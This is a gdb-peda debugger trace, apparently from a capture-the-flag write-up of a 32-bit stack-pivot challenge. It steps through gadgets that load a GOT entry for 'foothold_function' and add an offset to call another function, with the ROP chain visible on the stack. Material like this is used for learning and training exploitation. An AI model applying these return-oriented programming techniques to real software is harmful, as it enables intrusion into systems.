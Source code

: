 ```text
   0x80488be:   xchg   ax,ax
=> 0x80488c0 <usefulGadgets>:   pop    eax
   0x80488c1 <usefulGadgets+1>: ret
   0x80488c2 <usefulGadgets+2>: xchg   esp,eax
   0x80488c3 <usefulGadgets+3>: ret
   0x80488c4 <usefulGadgets+4>: mov    eax,DWORD PTR [eax]
[------------------------------------stack-------------------------------------]
0000| 0xf755cf18 --> 0x804a024 --> 0xf7772770 (<foothold_function>:     push   ebp)
0004| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0008| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0012| 0xf755cf24 --> 0x1f7
0016| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0020| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
0024| 0xf755cf30 --> 0xa ('\n')
0028| 0xf755cf34 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488c0 in usefulGadgets ()
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x804a024 --> 0xf7772770 (<foothold_function>:     push   ebp)
EBX: 0x0
ECX: 0x54 ('T')
EDX: 0xf7731854 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0x0
ESP: 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:       mov    eax,DWORD PTR [eax])
EIP: 0x80488c1 (<usefulGadgets+1>:      ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80488bc:   xchg   ax,ax
   0x80488be:   xchg   ax,ax
   0x80488c0 <usefulGadgets>:   pop    eax
=> 0x80488c1 <usefulGadgets+1>: ret
   0x80488c2 <usefulGadgets+2>: xchg   esp,eax
   0x80488c3 <usefulGadgets+3>: ret
   0x80488c4 <usefulGadgets+4>: mov    eax,DWORD PTR [eax]
   0x80488c6 <usefulGadgets+6>: ret
[------------------------------------stack-------------------------------------]
0000| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0004| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0008| 0xf755cf24 --> 0x1f7
0012| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0016| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
0020| 0xf755cf30 --> 0xa ('\n')
0024| 0xf755cf34 --> 0x0
0028| 0xf755cf38 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488c1 in usefulGadgets ()
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x804a024 --> 0xf7772770 (<foothold_function>:     push   ebp)
EBX: 0x0
ECX: 0x54 ('T')
EDX: 0xf7731854 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0x0
ESP: 0xf755cf20 --> 0x8048571 (<_init+33>:      pop    ebx)
EIP: 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```